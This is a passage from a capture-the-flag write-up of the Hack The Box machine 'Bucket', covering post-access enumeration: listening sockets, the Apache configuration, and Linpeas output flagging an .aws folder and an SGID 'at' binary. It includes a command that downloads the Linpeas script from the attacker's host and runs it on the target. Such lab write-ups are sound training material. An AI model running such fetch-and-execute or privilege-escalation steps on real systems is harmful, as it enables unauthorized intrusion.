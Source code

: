 ```bash
LISTEN               0                    4096                               127.0.0.53%lo:53                                     0.0.0.0:*                                                              
LISTEN               0                    4096                                   127.0.0.1:4566                                   0.0.0.0:*                                                              
LISTEN               0                    128                                      0.0.0.0:22                                     0.0.0.0:*                                                              
LISTEN               0                    511                                            *:80                                           *:*                                                              
LISTEN               0                    128                                         [::]:22                                        [::]:*                                   
```

It also doesn't show up in `ps aux`, so there is no way to verify which user it runs as. We later find out it has root privileges, and there is one `/usr/sbin/apache2 -k start` process running as root, so I suspect that is the underlying process that started the server.

After looking at some other writeups, it seems `netstat -tnl` would have revealed the webserver. An alternative would have been to look in `/etc/apache2/sites-enabled/000-default.conf` to see what sites are enabled on the box. [0xdf's writeup](https://0xdf.gitlab.io/2021/04/24/htb-bucket.html#web-1) explains this process.

### Linpeas

I did run Linpeas, but it didn't throw up much useful information.

```bash
roy@bucket:~$ wget http://10.10.14.65/linpeas.sh
roy@bucket:~$ ./linpeas.sh
```

The highlights were the presence of the `.aws` directory, which we had already found, and a potential `at` exploit.

```bash
[+] Unexpected folders in root
/cdrom
/.aws

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/bin/at		--->	RTru64_UNIX_4.0g(CVE-2002-1614)

```

However, I suspected this wasn't the path to root, and it would instead be something to do with AWS or the local application that we found slightly earlier.

## bucket-app
